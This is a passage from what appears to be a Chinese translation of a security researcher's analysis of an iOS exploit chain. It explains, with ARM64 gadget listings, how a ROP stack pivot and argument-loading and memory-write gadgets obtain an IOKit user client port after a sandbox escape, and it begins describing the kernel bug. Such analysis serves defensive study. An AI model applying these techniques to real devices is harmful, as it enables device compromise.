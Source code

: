 gadget_3将X8和X1存储到实际堆栈中，创建一个虚假栈帧，其中包含已保存帧指针（0x1180900c0）和受控返回地址（gadget_4_addr）的受控值。然后跳转到gadget_4+4：

```
gadget_4+4:
LDP X29, X30, [SP],#0x10 ; X29 := *(SP)   (=0x1180900c0)
                         ; X30 := *(SP+8) (=gadget_4_addr)
                         ; SP += 0x10
RET ; jump to LR (X30), gadget_4:
```

该过程将从实际栈中加载帧指针和链接寄存器，具体是从刚刚写入受控值的地址实现加载。这就使得攻击者可以任意控制帧指针和链接寄存器。RET会跳转到链接寄存器中的值，即gadget_4：

```
gadget_4:
MOV  SP, X29              ; SP := X29 (=0x1180900c0)
LDP  X29, X30, [SP],#0x10 ; X29 := *(0x1180900c0) (=UNINIT)
                          ; X30 := *(0x1180900c8) (gadget_5_addr)
                          ; SP += 0x10 (SP := 0x1180900d0)
RET                       ; jump to LR (X30), gadget_5
```

这会将其受控帧指针移动到栈指针寄存器中，从那里加载帧指针和链接寄存器的新值，并将RET转换为gadget_5，然后成功转动到受控栈指针中。此处的ROP栈与PE3的沙箱逃逸栈非常相似，他们使用相同的LOAD_ARGS小工具，在想要调用的每个目标函数之前加载X0-X7：

```
gadget_5: (LOAD_ARGS)
LDP   X0, X1, [SP,#0x80]
LDP   X2, X3, [SP,#0x90]
LDP   X4, X5, [SP,#0xA0]
LDP   X6, X7, [SP,#0xB0]
LDR   X8, [SP,#0xC0]
MOV   SP, X29
LDP   X29, X30, [SP],#0x10
RET
```

除此之外，还使用相同的memory_write小工具：

```
gadget_6: (MEMORY_WRITE)
LDR             X8, [SP]
STR             X0, [X8,#0x10]
LDP             X29, X30, [SP,#0x20]
ADD             SP, SP, #0x30
RET
```

有关这些小工具的ROP栈工作原理，请参阅iOS漏洞利用链#3文章。这里，是以与iOS漏洞利用链#3非常相似的方式进行，调用IOServiceMatching、IOServiceGetMatchingService和IOServiceOpen来获取一个IOKit UserClient mach端口发送权限。攻击者使用内存写入小工具将该端口名称写入他们连续发送的四个exfil消息。在WebContent进程中，在端口集上侦听消息。如果收到该消息，则会在其中发送一个ProvInfoIOKitUserClient。



## 内核漏洞

沙箱逃逸发送回与ProvInfoIOKitUserClient用户客户端类的连接，至少自iOS 10开始就一直存在。这个类通过覆盖getTargetAndMethodForIndex向用户空间公开接口，提供6个外部方法。getTargetAndMethod返回指向IOExternalMethod结构的指针，该结构描述了预期输入和输出的类型和大小。

